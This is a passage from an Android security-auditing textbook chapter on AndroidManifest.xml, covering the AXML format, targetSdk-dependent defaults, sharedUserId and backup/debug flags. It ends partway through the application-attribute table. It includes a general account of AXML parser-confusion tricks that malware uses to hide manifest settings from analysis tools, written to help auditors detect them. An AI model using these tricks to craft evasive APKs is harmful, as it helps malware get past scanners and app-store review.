# 32 — AndroidManifest.xml

> After this chapter you will be able to open any app's manifest — binary or source, original or
> merged — read every security-relevant attribute line by line, state precisely what each value
> permits an attacker to do, and defend that conclusion against a developer who disagrees with you.

**Prerequisites:** [10-APK-Internals](../10-APK-Internals/README.md),
[09-Android-App-Internals](../09-Android-App-Internals/README.md),
[23-Permissions](../23-Permissions/README.md), [26-Intent](../26-Intent/README.md)
**Applies to:** Android 4.4 – 16 (API 19 – 36). Behaviour differences are called out in Version
Matrix tables throughout.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### The problem that existed before the manifest

Imagine an operating system where a program can simply *start running* and then announce what it
would like to do. It launches, and only afterwards asks the system "may I read the address book?",
"may I run when the phone boots?", "may other programs talk to me?". The operating system would have
to answer those questions at the worst possible moment: while untrusted code is already executing
inside its own process, already holding memory, already able to lie.

This is roughly how desktop operating systems worked for their first three decades, and it is why a
Windows installer could ask for administrator rights and then do anything at all. The decision point
came *after* the code was running, and the decision was made by a human who had no way to evaluate
it.

Android took a different position, and the whole security model of the platform rests on it: **an
application must declare, in a fixed, machine-readable document, everything it intends to do, before
a single line of its code executes.** That document is `AndroidManifest.xml`.

> **📖 Definition**
> **AndroidManifest.xml** is a mandatory XML document at the root of every APK. It declares the
> application's identity, its components (the entry points other software can reach), the
> permissions it requests, the permissions it defines, the hardware and software it needs, and
> dozens of behavioural flags. The Android package manager parses it at install time and again at
> every boot, and stores the result in the system's package database. The application process is
> configured *from* that stored record, before the app's own code is loaded.

### An analogy

Think of the manifest as the **building permit and floor plan** filed with a city before
construction. It states the address (the package name), who owns the building (the signing identity,
which lives outside the manifest but is bound to it), which doors exist and which of them open onto
the public street (exported components), which doors need a key and what kind of key (permissions),
what utilities the building needs (hardware features, libraries), and what the building is allowed to
do to its neighbours.

The city inspector reads the plan once, stamps it, and thereafter enforces the plan — not the
builder's later claims about the plan. If the plan says the back door opens onto the street, then it
opens onto the street, no matter what the builder writes on a sign next to it.

That last point is the entire reason a manifest audit is the first thing you do on any Android
engagement. **The manifest is where the app's attack surface is defined, and the app cannot lie about
it at runtime**, because the runtime enforcement uses the parsed manifest and not the app's opinion.

### What would break without a manifest

Remove the manifest and Android stops working in four separate ways at once:

1. **There is no way to start anything.** Android does not have a `main()` that the user launches.
   The launcher starts an application by sending an `Intent` that resolves to an Activity — and
   resolution happens against manifest-declared `<intent-filter>` entries held in
   `PackageManagerService`. With no manifest there is nothing to resolve to.
2. **There is no sandbox boundary to enforce.** The Linux UID assigned to an app, the SELinux
   context, the private data directory, whether another app may bind to a service — all of it is
   derived from manifest data.
3. **There is no permission model.** Permissions are strings declared in manifests and requested in
   manifests. The permission check in `system_server` compares the calling UID's granted permission
   set (built from manifests) against a required permission string (declared in a manifest).
4. **There is no compatibility story.** `targetSdkVersion` is the platform's mechanism for changing
   defaults without breaking old apps. It lives in the manifest, and it silently changes the meaning
   of a dozen other things you are about to audit.

### Why this chapter is longer than it looks like it should be

A manifest is a few hundred lines of XML. It is also the single densest concentration of security
decisions in the entire application. Every attribute in this chapter is one of the following:

- A **direct authorisation** — `exported="true"` grants every app on the device the right to send
  your component an `Intent`.
- A **defence disabled** — `usesCleartextTraffic="true"` turns off a platform protection.
- A **capability request** — `<uses-permission android:name="android.permission.READ_SMS"/>` asks for
  access to a data source.
- A **behaviour selector whose default depends on `targetSdkVersion`** — the most dangerous category,
  because the attribute may be *absent* and still be the vulnerability.

That fourth category is why so many junior testers miss real findings. They grep for
`exported="true"` and report nothing, on an app targeting API 28, where three components with
`<intent-filter>` blocks are exported by default with no attribute written anywhere. The absence of
text is the finding.

> **🧠 Mental Model**
> Read a manifest the way an immigration officer reads a passport: not looking for what is written,
> but for what the combination of what is written and what is missing *permits*. Every attribute has
> a default. The default is a function of `targetSdkVersion`. You are auditing the **effective**
> manifest, which is the written manifest merged with library manifests and then interpreted through
> the lens of `targetSdkVersion`. None of those three layers is visible in the file you opened.

### The three layers you must always separate

| Layer | What it is | How you see it |
|---|---|---|
| **Source manifest** | The `AndroidManifest.xml` the developer edits, in `app/src/main/` | Only available with source access |
| **Merged manifest** | Source manifest + every library's manifest, after the Gradle manifest merger has run | `app/build/intermediates/merged_manifests/…`, Android Studio's *Merged Manifest* tab, or the AXML inside the APK |
| **Parsed manifest** | What `PackageManagerService` actually recorded after parsing the AXML | `adb shell dumpsys package <pkg>` |

An engagement almost always starts at layer 2 (you have an APK) and must be verified at layer 3 (you
have a device). The reason is the subject of section 3.2: **the tools that show you layer 2 and the
platform that produces layer 3 are different parsers, and a hostile APK can make them disagree.**

---

## 2. High-Level Architecture

### Where the manifest sits in the APK



The manifest inside an APK is **not** the text file the developer wrote. `aapt2` compiles it into
Android Binary XML (AXML), a length-prefixed chunk format with a shared string pool. Attribute values
that reference resources — `android:label="@string/app_name"`, `android:theme="@style/AppTheme"`,
`android:networkSecurityConfig="@xml/nsc"` — are stored as 32-bit resource identifiers that only make
sense when resolved against `resources.arsc`. This has an immediate consequence for you as an
auditor: **a manifest attribute can point at a resource whose value differs per configuration**, and
tools that do not resolve resources will show you `@xml/network_security_config` rather than its
contents. You have to follow the pointer.

### The lifecycle of a manifest, from source to enforcement



Read this diagram from the bottom up, because that is the direction that matters for security.

**Enforcement** reads from `PackageManagerService`'s in-memory model, which was built by
`ParsingPackageUtils` from the AXML bytes, which came from `aapt2`, which consumed a *merged* text
manifest that the developer may never have read. Three of those five steps are invisible to the
developer, and two of them are invisible to a tester who only opens `apktool`'s output.

The red box is the one that produces the most surprising findings in real assessments: **third-party
libraries inject components into your application's manifest.** An analytics SDK adds a
`ContentProvider` for automatic initialisation. An ad SDK adds an Activity with an
`<intent-filter>`. A push SDK adds a `BroadcastReceiver` with `exported="true"`. The developer never
typed any of it, cannot see it in their editor, and will tell you with complete sincerity that their
app has four components when it has forty-one.

### The trust boundary the manifest defines



Everything you audit in a manifest is ultimately a statement about this picture. `exported` decides
whether the arrow from the red box lands. `permission` decides whether the arrow needs a key.
`protectionLevel` decides who can obtain that key. `grantUriPermissions` decides whether a key can be
temporarily lent. `taskAffinity` decides whether the red box can insert *itself* into the target's
task stack.

Note the orange box. `adb shell` runs as UID 2000, which holds privileges that a normal app does not
have — most notably the ability to start some components a third-party app could not. This is the
single most common source of false positives in manifest testing, and section 7 tells you how to
avoid it.

### The two parsers you must reconcile



`aapt2` uses the same `libandroidfw` code the platform uses, so it is the closest host-side
approximation of the truth. `apktool`, `jadx` and the Python parsers are independent
reimplementations. Independent reimplementations of a binary format written by an adversary is a
classic parser-differential setup, and malware has exploited it. The practical rule appears in
section 3.2 and is repeated in the checklist: **cross-check three sources before you write a
finding.**

---

## 3. Deep Internal Working

### 3.1 Android Binary XML (AXML) — the on-disk format

> **📖 Definition**
> **AXML** (Android Binary XML) is a binary serialisation of an XML document used for
> `AndroidManifest.xml` and every compiled file under `res/`. It exists so that the platform can read
> XML without running a text parser: parsing is a walk over fixed-size records, and string comparison
> is replaced by integer comparison against a pre-built string pool.

The format is a sequence of **chunks**. Every chunk begins with the same 8-byte header:

```c
// AOSP: frameworks/base/libs/androidfw/include/androidfw/ResourceTypes.h
struct ResChunk_header {
    uint16_t type;         // what kind of chunk this is
    uint16_t headerSize;   // bytes of header, including these 8
    uint32_t size;         // total bytes of this chunk, header included
};
```

The chunk types you will meet in a manifest:

| Constant | Value | Meaning |
|---|---|---|
| `RES_NULL_TYPE` | `0x0000` | Padding / unused |
| `RES_STRING_POOL_TYPE` | `0x0001` | The shared string pool (all element names, attribute names, string values) |
| `RES_XML_TYPE` | `0x0003` | The outer wrapper chunk for the whole document |
| `RES_XML_START_NAMESPACE_TYPE` | `0x0100` | `xmlns:android="…"` begins |
| `RES_XML_END_NAMESPACE_TYPE` | `0x0101` | Namespace ends |
| `RES_XML_START_ELEMENT_TYPE` | `0x0102` | `<activity …>` |
| `RES_XML_END_ELEMENT_TYPE` | `0x0103` | `</activity>` |
| `RES_XML_CDATA_TYPE` | `0x0104` | Text content (rare in manifests) |
| `RES_XML_RESOURCE_MAP_TYPE` | `0x0180` | Maps string-pool indices of attribute names to `android.R.attr` resource IDs |

The **resource map chunk** is what makes AXML fast and what makes it confusing. In a text manifest,
an attribute is identified by its name, `android:exported`. In AXML, the attribute is identified by
its **resource ID**, `0x01010010` for `android:exported`. The resource map chunk is a flat array: the
Nth entry gives the resource ID for the string at index N in the string pool. The platform matches
attributes **by resource ID, not by name**.

> **⚠️ Warning**
> That last sentence is the root of an entire family of evasion tricks. If an attribute's name string
> says `exported` but its resource ID slot maps to something else, a text-oriented decoder that keys
> off the name will print one thing and the platform will do another. Conversely, an attribute with
> the correct resource ID but a garbage name string will be *invisible* to a name-based decoder and
> fully effective on the device. Section 3.2 covers this properly.

Attribute values are stored as `Res_value` structures:

```c
// AOSP: frameworks/base/libs/androidfw/include/androidfw/ResourceTypes.h
struct Res_value {
    uint16_t size;      // always 8
    uint8_t  res0;      // always 0
    uint8_t  dataType;  // TYPE_STRING=0x03, TYPE_REFERENCE=0x01, TYPE_INT_BOOLEAN=0x12, …
    uint32_t data;      // string-pool index, resource id, or the literal value
};
```

The types that matter for a manifest audit:

| `dataType` | Value | Meaning in a manifest |
|---|---|---|
| `TYPE_REFERENCE` | `0x01` | A resource reference, e.g. `@xml/network_security_config`. **You must resolve it.** |
| `TYPE_ATTRIBUTE` | `0x02` | A theme attribute reference |
| `TYPE_STRING` | `0x03` | An index into the string pool |
| `TYPE_FLOAT` | `0x04` | Float |
| `TYPE_DIMENSION` | `0x05` | e.g. `16dp` |
| `TYPE_INT_DEC` | `0x10` | Decimal integer, e.g. `versionCode` |
| `TYPE_INT_HEX` | `0x11` | Hex integer, e.g. `configChanges` flags |
| `TYPE_INT_BOOLEAN` | `0x12` | `0` is false, **anything non-zero is true** |

> **🔍 Pentester's Note**
> `TYPE_INT_BOOLEAN` is not "0 or 1". The platform's `getAttributeBooleanValue` returns
> `data != 0`. A crafted APK can store `0xFFFFFFFF` for `android:exported`. Some third-party
> decoders print `false` or a raw number; the platform reads `true`. Always confirm booleans with
> `aapt2 dump xmltree`, which prints the raw `(type 0x12)0xffffffff` form, and then with
> `dumpsys package`.

Here is what `aapt2` shows you for a real fragment, and how to read it:

```bash
# host — dump the binary manifest as a tree, showing raw types
aapt2 dump xmltree --file AndroidManifest.xml app.apk
```

```text
N: android=http://schemas.android.com/apk/res/android
  E: manifest (line=2)
    A: package="com.example.target" (Raw: "com.example.target")
    A: android:versionCode(0x0101021b)=(type 0x10)0x2a
    A: android:versionName(0x0101021c)="3.4.1" (Raw: "3.4.1")
    E: application (line=9)
      A: android:label(0x01010001)=@0x7f0f0021
      A: android:debuggable(0x0101000f)=(type 0x12)0xffffffff
      A: android:allowBackup(0x01010280)=(type 0x12)0xffffffff
      E: activity (line=20)
        A: android:name(0x01010003)="com.example.target.WebActivity" (Raw: "…")
        A: android:exported(0x01010010)=(type 0x12)0x0
```

Three things to notice. First, every attribute is printed with its **resource ID in parentheses** —
that is the platform's real key. Second, `android:label` is `@0x7f0f0021`, a reference you have not
resolved yet. Third, `debuggable` is `0xffffffff`, which is `true`, and any tool that printed it as
`-1` or `4294967295` and did not flag it would have hidden a critical finding from you.

### 3.2 AXML parser confusion — why you cross-check three tools

The platform's parser is `ResXMLTree` in `frameworks/base/libs/androidfw/ResourceTypes.cpp`, driven
by `ParsingPackageUtils` in `frameworks/base/services/core/java/com/android/server/pm/pkg/parsing/`.
Every other decoder is a reimplementation. Reimplementations differ in how they handle input that a
compiler would never produce, and an attacker is not a compiler.

The general shape of the problem, without inventing specific identifiers:

| Malformed construct | Typical third-party decoder behaviour | Typical platform behaviour |
|---|---|---|
| `headerSize` larger than documented for a chunk type | Decoder reads fields at fixed offsets and mis-parses, or throws | Platform skips `headerSize` bytes and continues correctly |
| Extra unknown chunk types interleaved in the document | Decoder aborts or mis-syncs | Platform skips chunks whose `type` it does not recognise |
| String pool declaring UTF-8 flag with UTF-16 data (or the reverse) | Decoder produces garbage or empty strings | Platform follows the flag and may read different strings |
| String pool with more entries than referenced, referenced indices out of range | Decoder throws | Platform clamps or returns an empty string |
| Duplicate attributes on one element | Decoder shows the first or the last | Platform's `indexOfAttribute` finds the **first** match by resource ID |
| Attribute name string ≠ attribute resource ID | Decoder keys off name | Platform keys off resource ID |
| Namespace URI misspelled but resource ID correct | Decoder may drop the attribute as "not android namespace" | Platform accepts it because it matches by ID |
| Chunk `size` field inconsistent with actual content | Decoder desynchronises | Platform bounds-checks and truncates |

This class of trick has been used in the wild by Android malware specifically to make analysis tools
(and by extension automated app-store scanners) report a benign manifest while the device installs a
malicious one. You should treat "my tool printed a clean manifest" as an unverified claim.

> **🔍 Pentester's Note — the three-way cross-check**
> Run all three, every time, on any APK you did not build yourself:
>
> ```bash
> # host — 1) the platform's own parser (closest to truth)
> aapt2 dump xmltree --file AndroidManifest.xml target.apk > /tmp/aapt2.txt
>
> # host — 2) an independent decoder
> apktool d -f -s target.apk -o /tmp/at >/dev/null && cat /tmp/at/AndroidManifest.xml > /tmp/apktool.xml
>
> # host — 3) the actual device, after install: ground truth
> adb install -r target.apk
> adb shell dumpsys package com.example.target > /tmp/dumpsys.txt
> ```
>
> If (1) and (2) disagree on any security-relevant attribute, that disagreement is itself a
> finding — report it, because it means the APK is deliberately malformed. If (3) disagrees with
> both, trust (3) and work out why.

`aapt2 dump badging` is a fourth, coarser view that is useful for a quick read but is *not* a
substitute, because it summarises rather than dumps:

```bash
# host — human-readable summary, resolves some resources
aapt2 dump badging target.apk
```

### 3.3 The `<manifest>` root element

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.example.target"
    android:versionCode="42"
    android:versionName="3.4.1"
    android:installLocation="auto"
    android:sharedUserId="com.example.shared"
    android:targetSandboxVersion="2">
```

| Attribute | Type | Default | What an auditor concludes |
|---|---|---|---|
| `package` | string | required | The app's identity for the whole platform. Data dir, UID assignment, `content://` authority conventions and `Uri` scoping all key off it. In modern Gradle builds the *effective* package comes from `namespace`/`applicationId`; the manifest attribute may be absent from source and injected at build time. |
| `android:versionCode` | int | 0 | Monotonic build number. `PackageManager` refuses downgrades. Useful for correlating a finding to a build. |
| `android:versionCodeMajor` | int (API 28+) | 0 | Upper 32 bits of a 64-bit version code. Rarely used; note it if present. |
| `android:versionName` | string | none | Human-readable. **Never trust it** — it is cosmetic and is frequently stale or falsified. |
| `android:installLocation` | enum | `internalOnly` | `auto` or `preferExternal` permit installation to adopted/removable storage. Historically this meant the APK could live on a FAT volume with no UNIX permissions; on modern devices adoptable storage is encrypted, but `preferExternal` on an app handling sensitive data is still worth a note. |
| `android:sharedUserId` | string | none | **High-signal.** See below. |
| `android:sharedUserLabel` | string ref | none | A user-visible label for the shared UID group; only meaningful with `sharedUserId`. Its presence confirms the shared-UID design is intentional. |
| `android:sharedUserMaxSdkVersion` | int (API 33+) | none | Lets an app *stop* using a shared UID on newer platforms while preserving it on old ones. Presence indicates the developer is migrating off shared UIDs — good sign. |
| `android:targetSandboxVersion` | int (API 26+) | 1 | `2` opts into a stricter sandbox (notably a per-app SELinux level and no `WORLD_*` file modes). Absent or `1` is the norm. |
| `android:isolatedSplits` | boolean | false | Split APKs load in isolated class loaders. Relevant when hunting for code you cannot find in `base.apk`. |
| `android:revisionCode` | int | 0 | Split-APK revision. Not security-relevant on its own. |

#### `sharedUserId` — the attribute that dissolves the sandbox

> **📖 Definition**
> **`sharedUserId`** requests that this application be assigned the *same Linux UID* as every other
> installed application declaring the same `sharedUserId` value **and signed by the same key**. Apps
> sharing a UID share a data directory namespace, can read each other's files directly, run in the
> same process if they ask to, and hold the union of each other's granted permissions.

The security consequence is total: the app sandbox, which is a UID boundary
([21-App-Sandbox](../21-App-Sandbox/README.md)), simply does not exist between members of a shared
UID group. If any one member of the group has a vulnerability that yields file read, the attacker
gets the private data of every member.

| Finding | Severity | Reasoning |
|---|---|---|
| `sharedUserId` present on a security-sensitive app (banking, health, enterprise MDM) | **High** | One weak sibling app compromises the sensitive one. Signature requirement limits the attacker to the vendor's own apps — but vendor apps are frequently the weak sibling. |
| `sharedUserId="android.uid.system"` on a third-party app | **Critical if it installs** | Only possible if signed with the platform key. If you find this in an APK you can install, the platform key has leaked or the device is a permissive vendor build. |
| `sharedUserId` present with no `sharedUserMaxSdkVersion` on a modern app | Medium | Deprecated since API 29; the app has no migration path. Changing or removing `sharedUserId` on an installed app is not possible without an uninstall, so this is technical debt with a security dimension. |

> **⚠️ Warning**
> `sharedUserId` is deprecated as of API 29 and cannot be added to an app that is already published
> without breaking updates, because changing an installed app's UID is not supported. If you
> recommend removing it, you must also say that removal requires a data-migration plan and an
> uninstall/reinstall, or the developer will correctly tell you the recommendation is not actionable.

### 3.4 SDK versions — the attribute that changes every other attribute's meaning

```xml
<uses-sdk android:minSdkVersion="24"
          android:targetSdkVersion="34"
          android:maxSdkVersion="36" />
```

In a Gradle project these are normally set in `build.gradle` and injected by the manifest merger, so
the source manifest may contain no `<uses-sdk>` at all while the merged manifest does:

```groovy
// app/build.gradle.kts — the real source of these values
android {
    compileSdk = 34
    defaultConfig {
        minSdk = 24
        targetSdk = 34
    }
}
```

> **📖 Definition**
> **`minSdkVersion`** is the lowest API level on which the app will install. **`targetSdkVersion`**
> is the API level the app declares it was *tested against*; the platform uses it to decide whether
> to apply new default behaviours or preserve old ones for compatibility. **`compileSdkVersion`** is
> a build-time-only setting controlling which APIs the compiler can see; it never appears in the
> manifest and has no runtime effect.

| Attribute | Security meaning |
|---|---|
| `minSdkVersion` | Defines the **oldest platform your findings must be assessed against**. An app with `minSdk=21` must be tested for pre-Marshmallow behaviours: install-time permissions, no scoped storage, weak TLS defaults, `MODE_WORLD_READABLE` still functional. A low `minSdk` widens your test matrix enormously. |
| `targetSdkVersion` | Defines which platform hardening the app has **opted into**. A low `targetSdk` is not a vulnerability by itself but is a force multiplier: it re-enables a long list of insecure defaults simultaneously. |
| `maxSdkVersion` | Almost never used and almost always a mistake if present; it makes the app uninstallable on newer platforms. |

#### The Version Matrix — what `targetSdkVersion` N turns on

This table is the single most useful thing in this chapter. Read the app's `targetSdk`, then read
every row at or below it to know which protections are active.

| targetSdk | Android | Change the platform applies | What it means when the app targets *below* this |
|---|---|---|---|
| **17** (4.2) | Jelly Bean MR1 | `<provider>` `exported` default flips from `true` to `false` | An app targeting ≤16 exports every provider by default. Rare today, but if `minSdk` is that low you must consider it on old devices. |
| **23** (6.0) | Marshmallow | **Runtime permissions.** Dangerous permissions are requested at use time and can be revoked. `MODE_WORLD_READABLE`/`WRITEABLE` throw `SecurityException`. `Apache HTTP` client removed. | Below 23: all requested permissions granted at install with a single user prompt, and world-readable file modes still work. This is the most consequential single line in the table. |
| **24** (7.0) | Nougat | User-added CA certificates are **no longer trusted by default**; apps trust only the system store unless a Network Security Config says otherwise. `file://` URIs across app boundaries throw `FileUriExposedException`. | Below 24: your Burp CA installed as a user certificate is trusted with no effort, and the app can hand out `file://` URIs to other apps. |
| **26** (8.0) | Oreo | Implicit broadcasts largely blocked for manifest-declared receivers. Notification channels required. Background execution limits. | Below 26: manifest receivers still wake for most implicit broadcasts, widening the receiver attack surface. |
| **28** (9.0) | Pie | **Cleartext HTTP disabled by default** (`usesCleartextTraffic` defaults to `false`). Non-SDK interface restrictions begin. Foreground services require `FOREGROUND_SERVICE`. | Below 28: plain HTTP works with no configuration and no warning. Combined with no Network Security Config, this is a straightforward MITM finding. |
| **29** (10) | Q | **Scoped storage** introduced (opt-out via `requestLegacyExternalStorage`). Background activity starts restricted. Device identifiers (IMEI/serial) require privileged permission. `foregroundServiceType` introduced. | Below 29: broad external-storage access. See [33-Storage](../33-Storage/README.md). |
| **30** (11) | R | **Scoped storage enforced** — `requestLegacyExternalStorage` is ignored. **Package visibility** filtering: `queryIntentActivities` and `getInstalledPackages` return a filtered list unless `<queries>` or `QUERY_ALL_PACKAGES` is declared. | Below 30: the app can enumerate every installed package with no declaration, which is a privacy finding and a fingerprinting vector. |
| **31** (12) | S | **`android:exported` must be declared explicitly** for any component with an `<intent-filter>` — install fails otherwise. **`PendingIntent` must specify `FLAG_IMMUTABLE` or `FLAG_MUTABLE`.** Notification trampolines blocked. `SameSite` cookie defaults in WebView. Approximate location option. | Below 31: `exported` defaults to `true` for components with intent filters and nobody has to think about it; and mutable `PendingIntent` objects can be handed to attackers who fill in the blanks. |
| **33** (13) | T | **Context-registered receivers for non-system broadcasts must pass `RECEIVER_EXPORTED` or `RECEIVER_NOT_EXPORTED`.** `POST_NOTIFICATIONS` becomes a runtime permission. `READ_EXTERNAL_STORAGE` replaced by `READ_MEDIA_IMAGES` / `_VIDEO` / `_AUDIO`. Intent filters are matched more strictly for non-matching intents delivered to exported components. | Below 33: dynamically registered receivers are exported by default, which is a genuinely common and genuinely exploitable finding. |
| **34** (14) | U | **`foregroundServiceType` is mandatory** and each type requires its own permission. Implicit intents may no longer be delivered to *non-exported* components of the same app via a mutable `PendingIntent`. Dynamic code loading requires files to be read-only. Runtime-registered receivers must declare export state (now enforced). | Below 34: foreground services can be started with no declared type, hiding what the app is actually doing in the background. |
| **35** (15) | V | Edge-to-edge enforced; further background/foreground restrictions; 16 KB page size preparation. Minimum installable `targetSdk` raised. | Mostly UX; note it for completeness. |

Additionally, the platform enforces a **minimum `targetSdk` for installation**, independent of what
the app declares:

| Platform | Refuses to install apps targeting below |
|---|---|
| Android 14 (API 34) | API 23 |
| Android 15 (API 35) | API 24 |

> **🔍 Pentester's Note**
> When you report "the app targets API 28", do not stop there. Write the *consequences*: "…therefore
> cleartext HTTP is permitted by default, components with intent filters are exported by default,
> scoped storage does not apply, package visibility filtering does not apply, and `PendingIntent`
> mutability is unchecked." A `targetSdk` finding is a **cluster** of findings, and presenting it as
> a cluster is what makes a client act on it.

Version Matrix for **`exported` defaults**, because this one is asked in every interview:

| Component | `targetSdk` | Has `<intent-filter>`? | Effective default `exported` |
|---|---|---|---|
| Activity / Service / Receiver | any | Yes | `true` |
| Activity / Service / Receiver | any | No | `false` |
| Activity / Service / Receiver | ≥ 31 | Yes | **Attribute is mandatory — build/install fails if omitted** |
| Provider | ≤ 16 | n/a | `true` |
| Provider | ≥ 17 | n/a | `false` |

### 3.5 `<application>` — the container and its flags

The `<application>` element carries the attributes that apply to the whole app. It is the densest
concentration of security-relevant switches in the file.

| Attribute | API | Default | Security meaning · auditor's conclusion | Severity if wrong |
|---|---|---|---|---|
| `android:debuggable` | 1 | `false` | If `true`, `adb shell run-as <pkg>` gives a shell as the app's UID, JDWP debugging attaches to the process, and Frida/Objection need no root. **Full read/write of app private data with only USB access.** In a release build this is never intentional. | **Critical** |
| `android:allowBackup` | 8 | `true` | Enables Android Auto Backup and (subject to platform version) `adb backup`. Data leaves the device to Google Drive, and on older platforms can be extracted over USB with no root. See [33-Storage](../33-Storage/README.md). | High if sensitive data, else Medium |
| `android:fullBackupContent` | 23 | none | Points at an XML resource of `<include>`/`<exclude>` rules for Auto Backup. `="false"` disables full backup entirely. If `allowBackup="true"` and this is absent, **everything** in the private dir except `no_backup/` and `cache/` is backed up. | Contributes to backup finding |
| `android:dataExtractionRules` | 31 | none | The modern replacement: separate rule sets for `<cloud-backup>` and `<device-transfer>`. An app that excluded a secret from cloud backup but not from D2D transfer has an incomplete fix. | Contributes to backup finding |
| `android:backupAgent` | 8 | none | Names a `BackupAgent` subclass implementing key-value backup. Read its code: developers frequently serialise tokens into the backup stream by hand. | Investigate |
| `android:backupInForeground` | 24 | `false` | Permits backup while the app is in the foreground. Low signal. | Info |
| `android:restoreAnyVersion` | 8 | `false` | Allows restoring a backup made by a *newer* version of the app. Combined with a weak parser, a crafted backup becomes an input channel. | Low–Medium |
| `android:killAfterRestore` | 8 | `true` | Housekeeping. | Info |
| `android:hasFragileUserData` | 29 | `false` | Offers the user a "keep app data" checkbox at uninstall. Data survives uninstall and is handed to a reinstalled app **with the same package name** — which on a device with a sideload path is an attacker-controlled app if signature checks are bypassed. Note it on apps holding secrets. | Low–Medium |
| `android:allowClearUserData` | 1 | `true` | If `false`, users cannot clear the app's data from Settings. Requires a system/privileged app on modern platforms. On a device where it takes effect, it means a user cannot remove leaked secrets. | Low, context-dependent |
| `android:usesCleartextTraffic` | 23 | `true` for targetSdk ≤ 27, `false` for ≥ 28 | Controls whether the platform's network stacks permit plaintext HTTP. **Superseded by `networkSecurityConfig` when both are present.** | High when combined with real cleartext endpoints |
